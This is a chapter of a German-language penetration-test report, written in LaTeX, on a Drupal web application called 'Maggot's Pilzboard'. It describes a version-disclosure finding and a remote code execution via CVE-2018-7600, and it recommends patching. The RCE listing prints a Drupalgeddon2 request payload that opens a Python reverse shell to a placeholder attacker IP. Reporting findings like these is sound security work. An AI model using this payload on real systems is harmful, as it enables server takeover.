\pagebreak
\chapter{Maggot's Pilzboard}

\vfill
\begin{figure}[!ht]
    \centering
    
\includegraphics[width=\linewidth]{images/screenshots/07_pilzboard.png}
    \caption{Webanwendung Maggot's Pilzboard}
    \label{fig:05_pilzboard}
\end{figure}
\vfill
\newpage

\cvss{av=local, ac=high, pr=high, ui=required, s=unchanged, c=low, i=low, a=low}
\cvssdescription{Informationsfreigabe über das verwendete CMS System inklusive Versionsnummer über den Footer der Anwendung.}

\section{\makecvssbadge Information Disclosure}
\cvssaddtosummary{Maggot's Pilzboard: Information Disclosure}

\subsection*{Proof of concept}
Über den Footer der Anwendung kann herausgefunden werden, dass es sich um eine Drupal Webanwendung handelt. Die Webanwendung verwendet Drupal in der Version 8, welche eine veraltete Versionen ist und Sicherheitslücken aufweist.

\subsection*{Empfehlungen}

\cvss{av=network, ac=low, pr=none, ui=required, s=changed, c=high, i=high, a=high}
\cvssdescription{Eine bekannte Sicherheitslücke in Drupal führt zu einer Remote Code Execution auf dem Webserver.}

\section{\makecvssbadge Remote Code Execution}
\cvssaddtosummary{Maggot's Pilzboard: Remote Code Execution}

\subsection*{Proof of concept}
Ein bekannter Exploit mit der CVE-Nummer CVE-2018-7600 erlaubt die Ausführung von Code auf einem Drupal-System. Dadurch kann direkt eine Reverse Shell auf dem System erstellt werden. Der Python Code für diesen Exploit ist in \autoref{listing:appendix:pilzboard_RCE} gelistet. Der HTTP-Request des Exploits kann mit einem Tool wie Burpsuite abgefangen und die Payload angepasst werden. Die Playoad zum Starten einer Reverse Shell ist in \autoref{listing:pilzboard:reverseshell} aufgeführt. Ein Nachweis ist in \autoref{fig:05_pilzboard_proof} dargestellt.


\begin{listing}[!ht]
\begin{minted}{bash}
POST /routers/cancel-order.php HTTP/1.1 
Host: 10.0.68.122
[...]
'form_id': 'user_register_form', '_drupal_ajax': '1', 'mail[#post_render][]': 'exec', 'mail[#type]': 'markup', 'mail[#markup]': 'python3+-c+'import+socket,subprocess,os%3bs%3dsocket.socket(socket.AF_INET,socket. SOCK_STREAM)%3bs.connect(("<Angreifer-IP>",9001))%3bos.dup2(s.fileno(),0)%3b+os.dup2( s.fileno(),1)%3b+os.dup2(s.fileno(),2)%3bp%3dsubprocess.call(["/bin/sh","-i"])%3b''
\end{minted}
\caption{Reverse Shell}
\label{listing:pilzboard:reverseshell}
\end{listing}
\begin{figure}[!ht]
    \centering
    
\includegraphics[width=\linewidth]{images/proofs/05_pilzboard_proof.png}
    \caption{Proof für die Webanwendung Maggot's Pilzboard}
    \label{fig:05_pilzboard_proof}
\end{figure}

\subsection*{Empfehlungen}
\begin{itemize}
    \item Drupal-Aktualisieren: Die Drupal-Version sollte unbedingt auf eine Version aktualisiert werden, welche den Patch für diese Sicherheitslücke beinhaltet (siehe \cite{owaspVulnerableDependency}).
    \item Regelmäßige Sicherheitsupdates: Sie sollten regelmäßig prüfen, ob es für die verwendeten Systeme Sicherheitsupdates gibt und wenn ja sollten diese zeitnah installiert werden, um ähnliche vorfälle zu verhindern (siehe \cite{owaspVulnerableDependency}).
\end{itemize}